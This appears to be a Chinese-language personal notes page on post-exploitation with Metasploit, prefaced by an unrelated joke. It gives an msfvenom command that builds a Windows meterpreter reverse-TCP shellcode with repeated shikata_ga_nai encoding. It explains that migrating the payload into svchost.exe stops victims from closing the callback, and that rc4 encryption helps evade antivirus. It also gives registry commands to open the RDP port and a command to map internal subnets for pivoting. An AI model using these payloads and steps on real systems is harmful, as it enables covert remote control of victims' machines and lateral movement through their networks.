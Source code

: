 ```
奶奶问孙子：4+1等于几 孙子说：等于6-1。 奶奶说：你明明知道答案，为什么不说？ 孙子说：年轻人不讲5的……..
```



### 后渗透阶段

#### 保存脚本

1.避免重复设置

```
makerc file  #会保存再msf得命令再文件
resource file #载入资源脚本
```

2.

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform LHOST=XXX LPORT=XXX -e x86/shikata_ga_nai -i 12 -b '\x00\' PrependMigrate=true PrependMIgrateProx=svchost.exe  -f c > /root/Desktop/shellcode.c

这里我们生成的windows，我们选择的是windows/meterpreter/reverse_tcp,LHOST是代理(远程)服务器的ip，LPORT是远程（代理）服务器的端口，-e x86/shikata_ga_nai -i 15是用 -e x86/shikata_ga_hai编码15次，而PrependMigrate=true PrependMIgrateProx=svchost.exe是使这个程序会默认迁移到svchost.exe进程，自己测试的时候和不建议到这个进程而是其他的持久的进程，这样子别人打开之后就无法再常规的去关闭回连的会话。当然你还可以使用windows/meterpreter/reverse_tcp_rc4这个payload，对会话进行加密，增加免杀能力
```

```

```



cmd命令

```
1）开启3389端口：

在cmd内，执行如下命令，即可开启3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

2）关闭3389端口：

在cmd内，执行如下命令，即可关闭3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```



#### 内网渗透

```shell
#可以先使用run get_local_subnets命令查看已拿下的目标主机的内网IP段情况
run  get_local_subnets 

```
